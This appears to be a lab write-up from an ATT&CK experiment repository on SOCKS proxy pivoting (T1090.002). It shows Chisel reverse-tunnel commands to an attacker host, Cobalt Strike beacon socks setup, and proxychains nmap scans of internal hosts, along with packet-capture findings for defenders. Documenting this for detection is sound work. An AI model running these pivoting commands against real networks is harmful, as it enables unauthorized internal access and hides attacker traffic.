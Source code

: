 # T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

Simple layout from the test environment.

```
Attacker machine (Server proxy) -> External facing machine (Client proxy) -> Internal facing machine
```

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 

![chisel_server_listening_port](./Images_T1090.002/chisel_server_listening_port.png)

#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```

![chisel_client_1](./Images_T1090.002/chisel_client_1.png)

#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```

![chisel_pcap_1](./Images_T1090.002/chisel_pcap_1.jpg)

It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

#### In Attacker Server

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.

![cs_server_socks_1](Images_T1090.002/cs_server_socks_1.png)

```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

#### In Victim Server

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, the attacker will pass the network forwarding data to victim machine via the attacker's machine listening port (in this case is port 443).

![cs_client_socks_1](./Images_T1090.002/cs_client_socks_1.png)

Here is the decoded packet data found in the beacon that sent from teamserver. The command ID 0xE triggers the traffic forwarding function later.

```
Command used in attacker machine
> proxychains nmap 120.10.13.129
```

![cs_client_packet](./Images_T1090.002/cs_client_packet.png)

> Packet count is Command count xD

Screenshot below show the psedocode of beacon's traffic forwarding function.

![cs_client_socket_conn_1](./Images_T1090.002/cs_client_socket_conn_1.png)

## Findings

If network traffic is pass through proxy channel into internal network, you will only see the source IP of the machine where have the client SOCKS proxy installed and the target internal IP.

This can be seen in the packet from screenshot above.
Attacker executes `proxychains nmap 172.16.228.11` from their own machine to internal facing machine `172.16.228.11`, in the network packet data, the source address is the internal IP of the external machine instead of the attacker IP.

The SOCKS proxy port is completely on the attacker (teamserver) side, where it can't be find in the victim (client) side. This means the beacon in the victim machine just a relay to forward the traffic to internal network, while the teamserver will handle the SOCKS proxy and generate traffic forwarding data.

## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
